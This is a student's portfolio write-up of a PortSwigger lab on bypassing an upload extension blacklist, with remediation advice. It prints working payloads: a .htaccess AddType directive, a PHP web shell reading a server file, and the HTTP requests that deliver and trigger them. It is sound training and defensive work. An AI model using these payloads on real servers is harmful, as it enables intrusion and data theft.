


# 07-lab-web-shell-upload-via-extension-blacklist-bypass

> PortSwigger Web Security Academy — File Upload Vulnerabilities: Web Shell Upload via Extension Blacklist Bypass. Demonstrates how an Apache `.htaccess` misconfiguration permits server-side PHP execution through a custom file extension, bypassing a `.php` extension blacklist.


---

## Table of Contents

- [Overview](#overview)
- [Scope & Objectives](#scope--objectives)
- [Methodology](#methodology)
- [Findings / Results](#findings--results)
- [Risk Summary](#risk-summary)
- [Attack Chain](#attack-chain)
- [Tools & Environment](#tools--environment)
- [Evidence](#evidence)
- [Remediation](#remediation)
- [Lessons Learned](#lessons-learned)
- [References](#references)
- [Author](#author)

---

## Overview

File upload functionality is a common attack surface in web applications. When server-side validation relies on a blacklist of prohibited extensions rather than a strict allowlist of permitted types, attackers can bypass controls by exploiting server configuration mechanisms. This lab simulates a real-world scenario where an Apache web server permits `.htaccess` uploads, enabling an attacker to redefine how the server interprets file extensions.

The objective was to upload a PHP web shell and use it to read a sensitive file from the server filesystem. The attack required two uploads: a malicious `.htaccess` directive to map a custom extension to the PHP interpreter, followed by the web shell using that extension.

> **Key Outcome:** Achieved remote code execution via a two-stage file upload attack, exfiltrating `/home/carlos/secret` by exploiting an Apache `AddType` directive injected through an unrestricted `.htaccess` upload.

---

## Scope & Objectives

### Objectives

- Identify and exploit a file upload vulnerability protected by an extension blacklist
- Bypass the blacklist using an Apache server configuration injection via `.htaccess`
- Execute a PHP web shell on the server to read `/home/carlos/secret`
- Submit the exfiltrated secret to solve the lab

### In Scope

| Target | Description | Type |
|--------|-------------|------|
| `POST /my-account/avatar` | Avatar upload endpoint | Web Application |
| `GET /files/avatars/<filename>` | Uploaded file retrieval endpoint | Web Application |
| `/home/carlos/secret` | Target file for exfiltration | Server Filesystem |

### Out of Scope

- No other endpoints or application functionality were tested
- No automated scanning tools were used against the target
- No attempts were made to escalate beyond file read access

### Engagement Type

> **Type:** Gray-box (credentials provided, source not available)
> **Authorization:** PortSwigger Web Security Academy — authorized sandboxed lab environment
> **Duration:** Single session

---

## Methodology

The assessment followed the **OWASP Testing Guide (OTG-BUSLOGIC-008)** for file upload testing, combined with **PTES** exploitation phase principles.

**Phase 1 — Reconnaissance**
Authenticated as `wiener:peter` and uploaded a legitimate image file. Intercepted the HTTP history in Burp Suite to identify the upload endpoint (`POST /my-account/avatar`) and the file retrieval path (`GET /files/avatars/<filename>`). Response headers confirmed the server was running **Apache/2.4.41 (Ubuntu)** with `mod_php` active.

**Phase 2 — Blacklist Enumeration**
Attempted to upload `exploit.php` directly. The server returned a rejection response indicating `.php` extensions are blocked, confirming a blacklist-based validation mechanism.

**Phase 3 — Configuration Injection**
Identified that the upload directory permits `.htaccess` uploads. Crafted a modified upload request to deliver an Apache `AddType` directive mapping the custom extension `.l33t` to the `application/x-httpd-php` MIME type, effectively instructing `mod_php` to execute `.l33t` files as PHP.

**Phase 4 — Payload Delivery**
Re-uploaded the PHP web shell with `filename` changed from `exploit.php` to `exploit.l33t`. The blacklist check passed since `.l33t` is not a blocked extension. The file was accepted and stored.

**Phase 5 — Execution & Exfiltration**
Issued a `GET /files/avatars/exploit.l33t` request. Apache resolved the extension via the injected `.htaccess` directive, passed the file to `mod_php`, and the payload executed — returning the contents of `/home/carlos/secret` in the HTTP response body.

---

## Findings / Results

### Finding F-01 — Unrestricted `.htaccess` Upload Enabling PHP Execution via Custom Extension

#### Identification

| Field | Value |
|-------|-------|
| **Finding ID** | F-01 |
| **Severity** | [HIGH] |
| **CVSS v3.1 Score** | 8.8 |
| **CVSS v3.1 Vector** | `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` |
| **CWE** | CWE-434 — Unrestricted Upload of File with Dangerous Type |
| **OWASP Category** | A03:2021 — Injection |
| **MITRE ATT&CK TTP** | T1505.003 — Server Software Component: Web Shell |
| **Affected Component** | `POST /my-account/avatar` — avatar upload function |

#### Description

The avatar upload endpoint enforces a blacklist that blocks `.php` file extensions. However, the upload directory on the Apache server does not restrict `.htaccess` files. An authenticated attacker can upload a `.htaccess` file containing an `AddType` directive that remaps an arbitrary extension (e.g., `.l33t`) to `application/x-httpd-php`. A subsequent upload of a PHP web shell using the custom extension bypasses the blacklist check and is executed by `mod_php` when the file is retrieved.

#### Technical Impact

- Arbitrary PHP code execution in the context of the web server process
- Read access to server filesystem files accessible to the web server user
- Potential for lateral movement if the web server process holds elevated privileges

#### Business Impact

- Confidential server-side data (credentials, secrets, configuration files) accessible to an authenticated attacker
- Persistent web shell placement constitutes an unauthorized foothold within the server environment
- Breach of data confidentiality and server integrity

#### Proof of Concept

**Step 1 — Upload malicious `.htaccess`**

```http
POST /my-account/avatar HTTP/2
Host: <lab-host>
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary...

------WebKitFormBoundary...
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .l33t
------WebKitFormBoundary...--
```

**Step 2 — Upload PHP web shell with custom extension**

```http
POST /my-account/avatar HTTP/2
Host: <lab-host>
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary...

------WebKitFormBoundary...
Content-Disposition: form-data; name="avatar"; filename="exploit.l33t"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>
------WebKitFormBoundary...--
```

**Step 3 — Trigger execution**

```http
GET /files/avatars/exploit.l33t HTTP/2
Host: <lab-host>
```

**Result:** The server returns the contents of `/home/carlos/secret` in the response body.

#### Exploit Script

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

#### Reproduction Steps

1. Authenticate as a valid user
2. Upload the `.htaccess` payload via `POST /my-account/avatar` (modify request in Burp Repeater)
3. Upload `exploit.l33t` containing the PHP payload via the same endpoint
4. Send `GET /files/avatars/exploit.l33t` — the secret is returned in the response

#### Retest Criteria

The finding is remediated when:
- `.htaccess` upload is rejected with a non-2xx response
- Files with non-allowlisted extensions are rejected at upload
- `GET /files/avatars/exploit.l33t` returns a non-executable response (raw file or 403)

---

## Risk Summary

| ID | Finding | Severity | CVSS | Status |
|----|---------|----------|------|--------|
| F-01 | Unrestricted `.htaccess` Upload — PHP Execution via Custom Extension | [HIGH] | 8.8 | Confirmed — Lab Solved |

---

## Attack Chain

```
[Authenticated User]
        |
        v
[1] Upload .htaccess to /files/avatars/
    -- Injects: AddType application/x-httpd-php .l33t
        |
        v
[2] Upload exploit.l33t (PHP web shell)
    -- Blacklist check passes: .l33t is not .php
        |
        v
[3] GET /files/avatars/exploit.l33t
    -- Apache reads local .htaccess
    -- Maps .l33t → application/x-httpd-php
    -- mod_php executes the file
        |
        v
[4] PHP reads /home/carlos/secret
    -- Secret returned in HTTP response body
        |
        v
[OBJECTIVE ACHIEVED — Remote File Read via Web Shell]
```

**MITRE ATT&CK Mapping**

| Phase | Technique | ID |
|-------|-----------|----|
| Initial Access | Exploit Public-Facing Application | T1190 |
| Persistence | Web Shell | T1505.003 |
| Collection | Data from Local System | T1005 |

---

## Tools & Environment

| Tool | Version | Purpose |
|------|---------|---------|
| Burp Suite Community Edition | 2026.3.2 | HTTP interception, request modification, Repeater |
| Kali Linux | VMware hosted | Attack platform |
| Brave Browser | Current | Lab interaction |
| PortSwigger Web Security Academy | — | Authorized lab environment |

**Exploit File**

| File | Description |
|------|-------------|
| `.htaccess` | Apache directive — maps `.l33t` to `application/x-httpd-php` |
| `exploit.l33t` | PHP web shell — reads `/home/carlos/secret` |

---

## Evidence


*Caption: GET /files/avatars/exploit.l33t — Apache executed the .l33t file as PHP via the injected .htaccess directive. The server responded with HTTP 200 and returned the contents of /home/carlos/secret in the response body.*


*Caption: Lab marked as Solved after submitting the exfiltrated secret, confirming successful exploitation of the extension blacklist bypass.*

---

## Remediation

### R-01 — Replace Extension Blacklist with Strict Allowlist [IMMEDIATE]

**Finding Reference:** F-01

**Recommended Fix:**

Replace the current blacklist validation with a strict allowlist that permits only known-safe MIME types and extensions for avatar uploads.

```python
ALLOWED_EXTENSIONS = {'jpg', 'jpeg', 'png', 'gif', 'webp'}
ALLOWED_MIME_TYPES = {'image/jpeg', 'image/png', 'image/gif', 'image/webp'}

def validate_upload(file):
    ext = file.filename.rsplit('.', 1)[-1].lower()
    mime = magic.from_buffer(file.read(2048), mime=True)
    if ext not in ALLOWED_EXTENSIONS or mime not in ALLOWED_MIME_TYPES:
        raise ValueError("File type not permitted")
```

Validate MIME type using server-side magic bytes inspection, not the `Content-Type` header supplied by the client.

**Additional Controls:**

- Block `.htaccess` and all Apache/Nginx configuration files explicitly at the web server level
- Disable `AllowOverride` in Apache configuration to prevent `.htaccess` from modifying server behavior in upload directories:

```apache
<Directory /var/www/html/files/avatars>
    AllowOverride None
    php_flag engine off
</Directory>
```

- Store uploaded files outside the web root and serve them through a controlled handler that sets a safe `Content-Type` and `Content-Disposition: attachment` header
- Rename uploaded files to a random UUID with a fixed safe extension on the server side, discarding the original filename

**Retest:** Upload `.htaccess` and `exploit.l33t` via the avatar endpoint. Both should be rejected. `GET /files/avatars/exploit.l33t` should return 404 or 403.

---

## Lessons Learned

**Blacklist logic is structurally weak.** A blacklist is only as complete as the developer's imagination at the time of writing. The `.php` block here was bypassed not by modifying the PHP file itself, but by using a legitimate Apache configuration mechanism — `.htaccess` — that was never considered in the threat model.

**Apache `AllowOverride` is a critical configuration control.** Leaving `AllowOverride All` active in upload directories gives any user who can upload a file the ability to rewrite the server's interpretation rules for that directory. Disabling it is a non-negotiable hardening step for any web-accessible upload path.

**Two-stage attacks require defenders to think across request boundaries.** Each individual upload in this attack chain appeared benign in isolation — one was a configuration file, one was a file with an unfamiliar extension. The danger emerged only from their combination. Detection logic must account for the cumulative effect of uploads into the same directory.

**Skills demonstrated:** File upload exploitation, Apache server configuration abuse, Burp Suite Repeater workflow, MITRE ATT&CK TTP mapping (T1505.003), CVSS v3.1 scoring, CWE-434, OWASP A03:2021.

---

## References

| Resource | URL |
|----------|-----|
| PortSwigger — File Upload Vulnerabilities | https://portswigger.net/web-security/file-upload |
| CWE-434 — Unrestricted Upload of File with Dangerous Type | https://cwe.mitre.org/data/definitions/434.html |
| OWASP Testing Guide — OTG-BUSLOGIC-008 | https://owasp.org/www-project-web-security-testing-guide/ |
| MITRE ATT&CK — T1505.003 Web Shell | https://attack.mitre.org/techniques/T1505/003/ |
| Apache `AllowOverride` Directive | https://httpd.apache.org/docs/current/mod/core.html#allowoverride |
| CVSS v3.1 Calculator | https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator |

---

## Author

**Michael Asante Anim** | `0x1aerixis`
BSc Cyber Security — University of Mines and Technology (UMaT), Tarkwa, Ghana

[](https://github.com/anim-michael-asante)
[](https://linkedin.com/in/michael-asante-anim)
[](https://tryhackme.com/p/0x1aerixis)
[](https://x.com/0x1aerixis)
[](https://discord.com/users/0x1aerixis)

> *"Built in the lab. Documented for the field."*

---

> **Disclaimer:** All work documented in this repository was conducted in authorized, isolated lab environments or sanctioned CTF platforms. No unauthorized systems were accessed. This project is intended for educational and portfolio purposes only.
